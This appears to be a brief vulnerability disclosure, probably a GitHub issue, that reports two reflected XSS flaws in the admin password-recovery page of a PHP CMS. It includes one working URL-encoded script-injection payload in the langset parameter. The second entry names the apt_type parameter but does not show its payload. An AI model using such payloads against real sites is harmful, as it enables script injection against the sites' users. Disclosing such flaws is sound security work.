




## XSS1 
Visit `http://127.0.0.1//m/admin/index.php?a=dogetpassword&anyid=&c=index&lang=cn&langset=1%27%3E%3Cscript%3Ealert(1)%3C/script%3E&n=getpassword`, then it will pop a window

  

## XSS2
Visit `http://192.168.6.232/m/admin/index.php?a=dogetpassword&anyid=&c=index&lang=cn&langset=&n=getpassword` and post the payload in apt_type parameter
  
then the web page will pop a window

